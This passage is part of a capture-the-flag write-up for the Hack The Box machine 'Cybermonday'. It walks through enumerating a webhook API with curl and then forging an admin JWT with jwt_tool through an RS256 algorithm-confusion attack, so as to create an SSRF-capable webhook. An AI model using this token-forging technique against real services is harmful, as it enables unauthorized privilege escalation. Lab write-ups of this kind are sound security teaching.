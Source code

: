 # HTB Cybermonday - Webhook API Admin Access

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[**Webhook API Admin Access**](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Navigating to the link itself just gets us a blank page. But if we go to the base URL (After adding the domain to our `hosts` file) we see a list of endpoints we can use.
```json
{
  "status": "success",
  "message": {
    "routes": {
...
```

First lets try the `GET /webhooks` endpoint. Since the other endpoints need a UUID it might help to see which ones have already been created. 
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks

{"status":"error","message":"Unauthorized"}
```


So we need authorization for this one. The same seems to be true for the create endpoint. We have the UUID for the webhook from the changelog so lets `POST` to that and see what happens.
```shell
$ curl -X POST http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77 -H "Content-Type: application/json" -d '{}'

{"status":"error","message":"\"log_name\" not defined"}
```

This must be a `createLogFile` webhook. Sending a `POST` with both the `log_name` and `log_content` fields doesn't seem to get us anything beyond a `Log created` message so lets leave that for now.

The login endpoint has a username and password so lets try some basic credentials like `admin:admin`. No luck there, let's go ahead and create an account for now. Once our account is created and we've logged in we obtain a JWT to use for our requests in the `x-access-token` header. Trying the `GET /webhooks` endpoint again we can now get a list of endpoints but there's only the `createLogFile` endpoint that we used before (unless there are other people also attempting to hack the box). If we try to use `/webhooks/create` however, we find we're still unauthorized. If we [inspect our JWT](https://jwt.io/) we find it holds the following payload:
```json
{
  "typ": "JWT",
  "alg": "RS256"
}
{
  "id": 3,
  "username": "username",
  "role": "user"
}
```

So our role may be what's holding us back here. Since the security algorithm is RS256 the server may be open to an algorithm switching attack. First we need the public key our token. Querying the usual paths on the server we find the information in the `/jwks.json` path. From that we can extract the public key. Next we use `jwt_tool` to alter the payload and resign the token. 

First we'll extract the public key from the `jwks.json` file, then tamper with the payload and signature.
```shell
$ python3 ~/tools/jwt_tool/jwt_tool.py <your token> -V -jw jwks.json

Found RSA key factors, generating a public key
[+] kid_0_<timestamp>.pem

$ python3 ~/tools/jwt_tool/jwt_tool.py <your token> -T
$ python3 ~/tools/jwt_tool/jwt_tool.py <token from the above command> -X k -pk <your pem filename>
```

During the second command `jwt_tool` will ask what data you want to tamper with. Skip the header values, then change the `role` value in the payload to `admin`. After this you should have a new (much shorter) JWT that we can now try using to create a new webhook.
```shell
$ curl -X POST http://webhooks-api-beta.cybermonday.htb/webhooks/create \
-H "x-access-token: <your spoofed token>" \
-H "Content-Type: application/json" \
-d '{"description": "ssrf", "name": "ssrfHook", "action": "sendRequest"}'

{"status":"success","message":"Done! Send me a request to execute the action, as the event listener is still being developed.","webhook_uuid":"<webhook id>"}
```

Success! Now lets see what we can get up to with this new endpoint.

Next: [Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)